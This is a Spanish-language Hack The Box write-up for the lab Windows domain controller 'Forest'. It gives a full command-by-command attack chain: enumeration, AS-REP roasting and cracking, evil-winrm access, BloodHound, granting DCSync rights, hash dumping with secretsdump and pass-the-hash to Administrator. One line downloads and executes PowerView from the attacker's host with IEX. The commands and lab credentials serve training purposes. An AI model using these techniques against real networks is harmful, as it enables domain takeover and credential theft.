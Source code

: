 ```yaml
---
layout: post
author: Sergio Salgado
---
```


|     Iformation         |      Link          |
|:-----------------------|:-------------------|
| Name                   | Forest             |
| Os                     | Windows            |
| Difficulty             | Easy               |
| Points                 | 0                  |
| IP                     | 10.10.10.161       |

## [](#header-2)Reconocimiento

Primero utilizaremos la herramienta que hace la identificación de conexión silenciosa y reconocimiento del sistema al que nos presentamos.

![Scan 1](/assets/images/Forest/scan1.png)

### [](#header-3)NMAP   

El primer escaneo rápido con nmap, para poder agilizar mientras más búsquedas o búsqueda de vulnerabilidades sobre esos puertos.

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv 10.10.10.161
```

![nmap 1](/assets/images/Forest/nmap1.png)

El segundo escaneo, ya un poco más profundo será:

```s
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.10.161 -oG allPorts
```

![nmap2](/assets/images/Forest/nmap2.png)

Después de tener los puertos, se puede hacer un escaneo ahora directo a los puertos con:

```s
sudo nmap -sCV -p53,88,135,139,389,445,464,593,636,47001,49664,49665,49666,49667,49671,49676,49677,49684,49706,49936 10.10.10.161 -oN targeted
```

![nmap 3.1](/assets/images/Forest/nmap3.1.png)

![nmap 3.1](/assets/images/Forest/nmap3.2.png)

Este tercer escaneo ya nos mostro ms informacion sobre los puertos que estan expuestos, podremos empezar a enumerar servicios con:

```s
enum4linux -a 10.10.10.161
```

![enum4linux](/assets/images/Forest/enum4linux.png)

Este escaneo rapido, nos dio informacion relevante, ya que la maquina permite el acceso sin usuario ni contrasena y podremos ver que se encuentra dentro. Tambien nos permitio saber el tamano de las contrasenas, mas nombres de usuario y que existen grupos de remote access que posteriormente podremos usar con evil win.

```s
crackmapexec smb 10.10.10.161
crackmapexec smb 10.10.10.161 -u users -p credentials --continue-on-success
```

Incorporamos el dominio htb.local a nuestro /etc/hosts 

Como no tenemos credenciales todavia, podemos meter un

```s
smbclient -L 10.10.10.161 -N
```

Ya que sabemos que el usuario Anonymous esta habilitado, podemos probar una herramienta 

```s
rpcclient -U "" 10.10.10.161 -N
#enumdomusers para listar usuarios del dominio

rpcclient -U "" 10.10.10.161 -N -c "enumdomusers" | grep -oP '\[.*?\]' | grep "0x" -v | tr -d '[]' > ../users.txt
```

Ya que podemos acceder a este servicio, podemos usar la<a href="https://github.com/s4vitar/rpcenum.git">herramienta</a> de s4vitar para enumerar mas informacion en este servicio 

Para usarla corremos un:

```s
sudo ./rpcenum -e DUsers -i 10.10.10.161
sudo ./rpcenum -e All -i 10.10.10.161
```

![Rpcenum](/assets/images/Forest/rpcenum.png)

Ahora podemos usar la herramienta de kali Impacket de la manera siguiente:

```s
impacket-GetNPUsers htb.local/ -no-pass -usersfile users.txt 2>/dev/null
```

Tenemos un usuario que si accedia a este servicio

![kerberos](/assets/images/Forest/kerberos_auth.png)

Como funciona esta vulnerabilidad? Pues si la contrasena de este usuario es debil, podriamos romperla.

```s
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```

![Password cracked](/assets/images/Forest/password_cracked.png)

Efectivamente, es debil su contrasena. Para validarla podemos usar un:

```s
crackmapexec smb 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```

Ahoora lo que podemos hacer es:

```s
impacket-GetNPUsers htb.local/svc-alfresco:s3rvice@10.10.10.161 -dc-ip 10.10.10.161
```

Lo siguiente seria usar ldapdomaindump para listar kerberosbroadsting:
Primero nos desplazamos al directorio /var/www/html.
Segundo, ejecutamos:

```s
ldapdomaindump -u 'htb.local\svc-alfresco' -p 's3rvice' 10.10.10.161

service apache2 start
```

El resultado del comando anterior sera esto, y lo podremos visualizar si iniciamos despues el apache2

![ldapdomaindump](/assets/images/Forest/domain_dump.png)

![domain users](/assets/images/Forest/domain_users_by_group.png)

Tenemos ahora una forma mas chula de ver la informacion de la maquina.

Ahora lo que podemos hacer es:

```s
crackmapexec winrm 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```

Nos aparece powned, asi que ahora podemos tener ejecusion remota en la maquina.

```s
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p 's3rvice'
```

Podemos ahora visitar el desktop y visualizar la flag. Para escalar los privilegios ahora podemos usar Bloodhound.

```s
#instalacion
sudo apt install neo4j bloodhound -y

neo4j console
#pass default  usuario neo4j y contrasena ne4j
```

```s
bloodhound --nosandbox &> /dev/null &
disown
```
Tuve complicaciones para hacer compatible bloodhound con el siguiente injector, pero con la sigiente <a href="https://github.com/BloodHoundAD/BloodHound/releases/download/4.0.3/BloodHound-linux-x64.zip"> version</a> pude continuar.

Vamos a usar un injector de<a href="https://github.com/puckiestyle/powershell/blob/master/SharpHound.ps1"> github</a>, nos lo podemos descargar con un wget desde la vista raw.

Ahora en la maquina con el evil-win solo tenemos que darle un upload SharpHound.ps1

Despues haremos la importacion del modulo con un:

```powershell
Import-Module .\SharpHound.ps1
Invoke-BloodHound -CollectionMethod All
```

Con esto hemos terminado la recoleccion de informacion y ha sido guardado en el archivo .zip.

![BloodHound information recolection](/assets/images/Forest/bh_recolection.png)

Nos descargamos el archivo con un download. Y lo importamos en BloodHound ahora.

Ahora que esta cargado el .zip, podemos darle click en el menu del lado izquierdo y en la parte de analysis empezar a enumerar posibilidades de escalada de privilegios. En el siguiente ejemplo vemos a alfresco y podemos darle a la opcion de owned.

Find AS-REP Roastable Users (DontReqPreAuth) VIEW

![User own](/assets/images/Forest/import_bh.png)

Find Shortest Paths to Domain Admins

![Easy way to become admin](/assets/images/Forest/becoming_admin.png)

La siguiente vista nos describe que alfresco es miembro del grupo service account, que a su vez tambien es miembro de Priviliged IT Account, Account operators. Entonces podemos crear usuarios quizas con los permisos que queramos, procedemos a intentar lo siguiente:

```s
#Creamos el usuario rebick con su contrasena a nivel dominio
net user rebick rebick1234! /add /domain
#Listamos los grupos
net group
net group "Exchange Windows Permissions" rebick /add
```

![Rebick added](/assets/images/Forest/rebick_added.png)

BloodHound nos da todo, en la siguiente ventana habremos dado click derecho y seleccionar la opcion help para que la herramienta nos muestre los pasos para avanzar al siguiente paso.

![Help view](/assets/images/Forest/rebick_added.png)

Antes, descargaremos la herramienta que nos permitira escalar esto de<a href="https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1"> github</a>. La cargamos a la maquina victima y la importamos abriendo un servidor de python y en la maquina windows:

```powershell
$SecPassword = ConvertTo-SecureString 'rebick1234!' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential('htb.local\rebick', $SecPassword)

IEX(New-Object Net.WebClient).downloadString('http://10.10.14.29/PowerView.ps1')
Add-DomainObjectAcl -Credential $Cred -TargetIdentity "DC=htb,DC=local" -PrincipalIdentity rebick -Rights DCSync
```

Y ahora que tenemos el permiso podemos ejecutar:

```s
impacket-secretsdump htb.local/rebick@10.10.10.161
```

![Credentials dumped](/assets/images/Forest/credentials_returned.png)

Ahora ya tenemos los hashes para el usuario Administrador tambien. Podemos ahora intentar crackear la contrasena o simplemente con el evil-winrm pasarle el hash de la manera siguiente:

```s
evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6'
```

![Root Owned](/assets/images/Forest/root_owned.png)

![Powned](/assets/images/Forest/powned.png)